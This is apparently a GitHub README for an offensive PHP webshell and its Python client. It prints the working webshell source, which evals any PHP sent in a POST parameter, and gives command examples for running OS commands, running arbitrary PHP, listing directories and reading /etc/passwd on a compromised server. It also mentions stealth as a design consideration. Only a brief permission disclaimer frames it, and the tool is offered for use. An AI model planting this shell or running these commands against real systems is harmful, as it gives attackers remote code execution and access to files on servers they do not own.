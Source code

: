 # PHP Webshell
#### Disclaimers (before we begin)
1. I am not responsible for anything you do with this. Please only use this if you were granted permission by your targets owner!
2. The webshell.php might not work great on windows machines, simply because I haven't tested it. Once I do I will update the code :)

## Let's Begin!
So as you see there are 2 parts to this webshell:
1. webshell.php - The webshell that you upload
2. client.py - The python3 utility you use to interact with webshell.php after it's been uploaded

If you look at `webshell.php` you'll notice it's very simple:
```php
<?php
	if(isset($_POST['payload']))
	{
		eval($_POST['payload']);
	}
?>
```
All it does is eval the php code given to it via a POST request.  
Using this kind of shell is a bit annoying, which is why the `client.py` was created.  
The client side takes care of converting your commands to php code and passing them to the webshell.  
It also has other functions that allow you to interact with the target via the webshell that don't require executing commands on the system  
(opening new processes / executing commands via a webshell isn't very stealthy).  
## Usage
```
python3 client.py --help
```
##### Let's go through some examples  
Executing commands on the remote os:
```sh
# execute an os command via the "system()" php function
python3 client.py -u http://example.com/webshell.php -t exec -p "ls"

# specify php function to use when executing a command
# available php functions are: system (default), passthru, shell_exec, exec, backticks
python3 client.py -u http://example.com/webshell.php -t exec -p "ls" -e passthru
```
Passing your own php code to be executed:
```sh
# adding the -v (--verify) flag, will show you details of the request that you are about to send to the webshell.
# if you are passing a complex php code, it might be worth going over again before sending (-v is available with all types, not only 'eval')
python3 client.py -u http://example.com/webshell.php -t eval -p 'echo("test")'
```
Get current working directory:
```sh
python3 client.py -u http://example.com/webshell.php -t pwd
```
List files in a given path (like ls):
```sh
# if the given path is not a valid directory the webshell will tell you
# this lists hidden files/directories as well
python3 client.py -u http://example.com/webshell.php -t dir -p "/home/user/"
```
Read file contents:
```sh
# you can change the name of the parameter that the webshell uses ("payload") before uploading it to whatever you want ("cmd" for example) and then use --post-param to specify the parameter.
# you can also change the `DEFAULT_POST_PARAM` parameter in `client.py` if you don't want to pass it as an argument everytime
python3 client.py -u http://example.com/webshell.php -t cat -p "/etc/passwd" --post-param "cmd"
```
## Future Plans
I want to add an upload/download file feature to the webshell, might get to that later  
Enjoy!
